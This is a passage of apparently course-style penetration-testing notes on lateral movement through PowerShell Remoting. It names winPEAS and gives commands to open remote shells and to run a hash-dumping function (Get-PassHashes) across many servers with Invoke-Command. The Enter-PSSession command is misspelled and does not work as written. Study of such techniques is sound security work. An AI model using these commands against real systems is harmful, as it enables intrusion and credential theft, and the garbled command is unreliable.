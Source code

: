 ~~~
winPEAS.exe
~~~


##   Lateral Movement - Powershell Remoting

- Think of PowerShell Remoting (PSRemoting) as psexec on steroids but much more silent and super fast!
- PSRemoting uses Windows Remote Management (WinRM) which is Microsoft’s implementation of WS-Management.
- Enabled by default on Server 2012 onwards with a firewall exception.
- Uses WinRM and listens by default on 5985 (HTTP) and 5986 (HTTPS).
- It is the recommended way to manage Windows Core servers.
- You may need to enable remoting (Enable-PSRemoting) on a Desktop Windows machine, Admin privs are required to do that.
- The remoting process runs as a high integrity process. That is, you get an elevated shell.

   1. One to one
   2. PSSession
       - Interactive
       - Runs in a mew process
       - Is Stateful
   3. Useful cmdlets
      - New-PSSession
      - Enter-PSSession


Open a powershell window with admin privilege

~~~
Enable-PSRemoting
~~~

 To get the interactive shell
  
~~~
Enter-PSSseion -ComputerName dcorp-adminstry
~~~

Use below to execute commands or scriptblocks

~~~
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content "<list_of servers>")
~~~

Use below to execute locally loaded function on the remote machines:

~~~
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
~~~

In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way

~~~
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
~~~
